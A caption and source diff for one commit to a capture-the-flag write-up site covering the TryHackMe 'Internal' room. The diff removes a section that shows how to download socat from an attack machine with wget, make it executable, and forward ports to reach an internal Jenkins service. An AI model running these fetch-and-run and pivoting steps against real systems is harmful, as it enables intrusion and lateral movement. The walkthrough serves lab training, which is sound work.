

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/internal.md, in a window 1280 px wide and 1400 px high, scrolled down 5727 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/source/docs/thm/internal.md
+++ b/source/docs/thm/internal.md
@@ -295,7 +295,7 @@ MySQL credentials can often be found by inspecting the `wp-config.php` file. Ala
 
 Explore to find an interesting file in the `/opt` directory. Read it.
 
-    $ su aubreanna
+    su aubreanna
 
 The user flag is in aubreanna’s home folder.
 
@@ -320,29 +320,6 @@ $ nmap -sC -sV -p 1234 127.0.0.1
 ```
 
 Jenkins is now available on `127.0.0.1:1234/login?from=%2F` from the attack machine.
-
-## Using socat to redirect ports
-
-As an alternative we can use `socat`. It is not available on the target, we have to transfer it. On the attack machine:
-
-```text
-$ which socat
-/usr/bin/socat
-$ cd /usr/bin/
-$ python3 -m http.server
-Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
-```
-
-On the target machine:
-
-```text
-$ cd /tmp/
-:/tmp$ wget http://<IP attack machine>:8000/socat
-:/tmp$ chmod +x socat
-:/tmp$ ./socat TCP-LISTEN:8888,fork TCP:127.0.0.1:80 &
-```
-
-Jenkins is now available with `IP target:8888/login?from=%2F` from the attack machine.
 
 ## Jenkins' admin password
 
````
